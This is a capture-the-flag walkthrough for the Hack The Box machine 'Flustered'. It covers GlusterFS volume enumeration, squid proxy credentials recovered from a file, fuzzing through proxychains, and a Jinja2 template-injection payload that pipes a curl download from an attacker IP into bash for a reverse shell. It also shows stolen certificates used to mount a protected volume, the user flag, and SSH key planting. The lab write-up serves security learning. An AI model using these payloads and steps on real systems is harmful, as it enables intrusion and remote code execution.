









# Flustered (Full Pwn)

## User

Starting with port scanning using nmap.

We see a lot of ports open. In port 80 we see an empty webpage, fuzzing didn't help too. In 3128 there is http-proxy which might be useful later. We can't find anything interesting on most open ports. Searching the ports one by one we get an interesting result at the first link we find about 24007 port.

GlusterFS is a scale-out network-attached distributed storage file system. So we can mount the remote filesystem to our machine . We can install it using apt. Using gluster command we can list volumes from the remote machine.

` gluster --remote-host=10.129.96.25 volume list `

With ` volume info ` we can see more informations about the volumes. Now we mount the volumes to our system to enumerate for more information.

` mount -t glusterfs 10.129.96.25:/vol1 /mnt/gfsvol/ `

We can't mount the vol1.

We get the error cause we miss the ssl certificates to mount them. We mount the vol2 successfully. We can see a mysql directory and searching inside we can't find anything useful. In squid directory there is a file passwd.ibd and inside we found credentials.

We can use the credentials at squid proxy to see internal services in the machine. Using foxy proxy we navigate to 127.0.0.1 to see an nginx default page. Using proxychains to fuzz the web page. Edit the /etc/proxychains4.conf file to comment last line and the new one :
` http <IP> 3128 lance.friedman o>WJ5-jD<5^m3 `
Now we use proxychains command to go through squid proxy and fuzz the web page.
` proxychains -q wfuzz -c -w /usr/share/wordlists/dirb/big.txt --hc 404,400,403 -R5 -u http://127.0.0.1/FUZZ `
We discover an /app directory, but we get 403 forbidden, so fuzzing again the /app for more directories and files. Testing for .py files we got an app.py and got to the url and we prompt to download the file. Reading the source code we understand that it's the source code for the first web page out of the proxy. We can see that in title tag a function inside curly braces so can try ssti there to see if it's vulnerable.

And we get command execution. So we can get reverse shell in the machine with the following payload:

` {{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl http://10.10.14.38:8000/rev.sh | bash').read()}} `

We get reverse shell as www-data. Searching in /etc/ssl we find the certificates to access the vol1. We copy the files to our /etc/ssl/ directory and then mount the vol1 from gluster.
` mount -t glusterfs 10.129.96.25:/vol1 /mnt/gfsvol/ `
Now we can go to directory gfsvol to see the directories we mounted.

There is a directory named jennifer, probably a user of the remote machine, where we can see it's files. Inside there is the user.txt flag so we can read it.

**HTB{m0v1Ng_tHr0ugH_v0lUm3s_l1K3_a_jInj4}**

As it is a shared filesystem we can create our ssh keys and create the authorized_keys file to ssh into the machine.
